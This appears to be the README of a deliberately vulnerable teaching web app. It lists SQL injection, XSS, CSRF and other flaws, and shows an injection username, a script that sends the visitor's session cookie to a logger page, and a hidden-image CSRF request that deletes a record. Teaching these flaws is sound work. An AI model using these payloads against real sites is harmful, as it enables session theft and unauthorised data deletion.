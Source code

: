 # Introduction

This is a simple application that demonstrates a few typical web application vulnerablities. The example covers:

* an SQL injection vulnerability,
* an XSS vulnerability,
* a CSRF vulnerability,
* an improper storage of sensitive data,
* an improper use of HTTP methods,
* and improperly secured URLS.

# SQL Injection 

As a username, provide `student' OR '`

# XSS 

XSS attack. This entry forces the visitor's browser to send its session cookie to the attacker's page.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://localhost/ex12/xss-logger/upload-cookies.php?" + document.cookie, true);
request.send(null);
</script>
```

# CSRF 

CSRF attack. This entry forces the visitor's browser to issue a GET request to the server. If the visitor is logged-in, the request will successfully access a protected resource -- will delete a joke.

```html
<img src="joke/delete?id=5&delete_confirmation=on" width="0" height="0" />
```
